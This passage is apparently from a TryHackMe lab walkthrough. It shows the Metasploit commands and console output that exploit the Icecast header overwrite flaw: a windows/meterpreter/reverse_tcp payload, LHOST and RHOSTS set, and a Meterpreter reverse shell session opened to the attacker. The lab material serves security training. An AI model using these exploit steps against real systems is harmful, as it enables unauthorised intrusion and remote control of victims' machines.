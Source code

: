 9. Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

```
msf5 exploit(linux/local/desktop_privilege_escalation) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(linux/local/desktop_privilege_escalation) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/local/desktop_privilege_escalation) >
```

`No answer needed`

10. Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

```
msf5 exploit(linux/local/desktop_privilege_escalation) > use icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


[*] Using exploit/windows/http/icecast_header
```

`No answer needed`

11. One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.

```
msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.223.155
RHOSTS => 10.10.223.155
```

`No answer needed`

12. Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.

```
msf5 exploit(windows/http/icecast_header) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.8.106.222:4444 
msf5 exploit(windows/http/icecast_header) > [*] Sending stage (176195 bytes) to 10.10.223.155
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.223.155:49293) at 2020-09-11 05:16:03 -0400
msf5 exploit(windows/http/icecast_header) > 
```
